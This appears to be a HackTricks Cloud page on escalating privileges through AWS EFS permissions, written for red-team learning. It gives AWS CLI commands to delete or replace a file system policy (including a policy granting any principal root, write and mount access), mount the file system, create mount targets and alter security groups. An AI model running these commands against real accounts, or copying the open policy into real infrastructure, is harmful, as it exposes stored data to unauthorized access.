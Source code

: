 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

More **info about EFS** in:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Remember that in order to mount an EFS you need to be in a subnetwork where the EFS is exposed and have access to it (security groups). Is this is happening, by default, you will always be able to mount it, however, if it's protected by IAM policies you need to have the extra permissions mentioned here to access it.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

With any of those permissions an attacker can **change the file system policy** to **give you access** to it, or to just **delete it** so the **default access** is granted.

To delete the policy:

```bash
aws efs delete-file-system-policy \
    --file-system-id <value>
```

To change it:

```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json: 
{
    "Version": "2012-10-17",
    "Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
    "Statement": [
        {
            "Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
	       "elasticfilesystem:ClientRootAccess",
               "elasticfilesystem:ClientWrite",
               "elasticfilesystem:ClientMount"
            ],
            "Condition": {
                "Bool": {
                    "elasticfilesystem:AccessedViaMountTarget": "true"
                }
            }
        }
    ]
}
```

### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

With this permission an attacker will be able to **mount the EFS**. If the write permission is not given by default to everyone that can mount the EFS, he will have only **read access**.

```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```

The extra permissions`elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

If you an attacker is inside a **subnetwork** where **no mount target** of the EFS exists. He could just **create one in his subnet** with this privilege:

```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
    --subnet-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In a scenario where an attacker finds that the EFS has mount target in his subnetwork but **no security group is allowing the traffic**, he could just **change that modifying the selected security groups**:

```bash
aws efs modify-mount-target-security-groups \
    --mount-target-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

